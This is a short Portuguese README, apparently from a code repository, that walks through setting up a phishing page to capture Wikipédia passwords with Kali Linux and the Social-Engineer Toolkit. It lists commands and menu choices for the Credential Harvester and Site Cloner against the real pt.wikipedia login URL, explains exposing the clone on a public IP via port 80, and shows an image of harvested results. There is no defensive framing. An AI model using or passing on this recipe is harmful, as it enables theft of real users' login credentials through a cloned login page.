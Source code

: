 # Phishing para captura de senhas da Wikipédia

## Ferramentas

- Kali Linux
- setoolkit

## Configurando o Phishing no Kali Linux
- Obtendo o endereço da máquina: ``` ifconfig ```
- Obtendo o endereço público: ``` curl ifconfig.co ```
- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- URL para clone: https://pt.wikipedia.org/w/index.php?title=Especial:Entrar&returnto=Login&returntoquery=centralAuthAutologinTried%3D1%26centralAuthError%3DNot%2Bcentrally%2Blogged%2Bin

### Observações com o endereço público

- Abra a porta 80 no seu roteador.
- Abra em outra rede (rede móveis por exemplo) com o endereço público:80. Exemplo: 111.111.111:80

### Resutados

![Resultado](./passwd.png "Optional title")
